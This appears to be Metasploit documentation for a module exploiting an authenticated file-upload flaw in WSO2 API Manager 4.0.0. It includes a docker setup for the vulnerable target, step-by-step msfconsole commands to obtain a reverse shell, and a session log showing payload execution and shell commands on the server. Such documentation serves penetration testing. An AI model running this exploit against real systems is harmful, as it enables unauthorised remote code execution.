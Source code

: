 ## Vulnerable Application

A vulnerability in the 'Add API Documentation' feature allows malicious users with specific permissions
(`/permission/admin/login` and `/permission/admin/manage/api/publish`) to upload arbitrary files to a user-controlled
server location. This flaw could be exploited to execute remote code, enabling an attacker to gain control over the server.

```yaml
services:
  api-manager:
    image: wso2/wso2am:4.0.0-alpine
    container_name: swo2_api_manager
    ports:
      - "9443:9443"

```

```bash
docker-compose up
```



## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use multi/http/wso2_api_manager_file_upload_rce`
1. Do: `set rhosts [ip]`
1. Do: `set lhost [ip]`
1. Do: `run`
1. You should get a shell.

## Scenarios

### WSO2 API Manager 4.0.0
```
msf6 exploit(multi/http/wso2_api_manager_file_upload_rce) > exploit

[*] Started reverse TCP handler on 0.0.0.0:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking target...
[+] Authentication successful
[+] The target appears to be vulnerable. Detected WSO2 API Manager 4.0.0 which is vulnerable.
[+] Authentication successful
[*] Listing APIs...
[+] Document created successfully
[*] Uploading payload...
[+] Payload uploaded successfully
[*] Executing payload... 
[+] Payload executed successfully
[*] Command shell session 2 opened (127.0.0.1:4444 -> 127.0.0.1:58206) at 2024-11-03 15:36:37 +0100

id
uid=802(wso2carbon) gid=802(wso2) groups=802(wso2)
pwd
/home/wso2carbon/wso2am-4.0.0
exit
[*] 127.0.0.1 - Command shell session 2 closed.
```

## Options

### HttpUsername (required)

The username to authenticate with.

### HttpPassword (required)

The password of the user to authenticate with.

### RHOSTS (required)

The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html

### RPORT (required)

The target port (TCP)
